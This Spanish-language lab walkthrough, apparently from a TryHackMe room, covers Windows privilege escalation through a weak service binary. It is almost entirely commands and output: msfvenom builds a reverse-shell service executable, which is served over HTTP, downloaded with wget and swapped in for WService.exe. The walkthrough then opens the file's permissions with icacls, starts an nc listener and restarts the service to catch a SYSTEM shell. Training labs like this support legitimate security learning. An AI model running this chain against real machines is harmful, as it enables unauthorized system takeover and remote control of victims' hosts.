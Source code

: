 - En la máquina atacante, creamos un payload para el ataque con `msfvenom` y lo servimos a traves de un puerto:
```bash
root@ip-10-10-146-33:~# msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.146.33 lport=4445 -f exe-service -o rev-svc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rev-svc.exe

root@ip-10-10-146-33:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

- En la máquina Windows, en powershell, lo descargamos 
```
PS C:\Users\thm-unpriv> wget http://10.10.146.33:8000/rev-svc.exe
```

- En la maquina con windows, hacemos un respaldo del servicio anterior
```
C:\Users\thm-unpriv>cd C:\PROGRA~2\SYSTEM~1\
C:\PROGRA~2\SYSTEM~1>move WService.exe WService.exe.bkp
C:\PROGRA~2\SYSTEM~1>move c:\users\thm-unpriv\rev-svc.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1>move rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1>icacls WService.exe /grant Everyone:F
processed file: WService.exe
Successfully processed 1 files; Failed processing 0 files
```
- Ponemos listener en la máquina atacante
```
root@ip-10-10-146-33:~# nc -lnvp 4445
Listening on [0.0.0.0] (family 0, port 4445)
```
- En la máquna windows detenemos y lanzamos el servicio:
```
C:\PROGRA~2\SYSTEM~1>sc stop windowsscheduler
C:\PROGRA~2\SYSTEM~1>sc start windowsscheduler
```
- El reverse shell llega aca:
```
root@ip-10-10-146-33:~# nc -lnvp 4445
Listening on [0.0.0.0] (family 0, port 4445)
Connection from 10.10.225.50 49886 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```
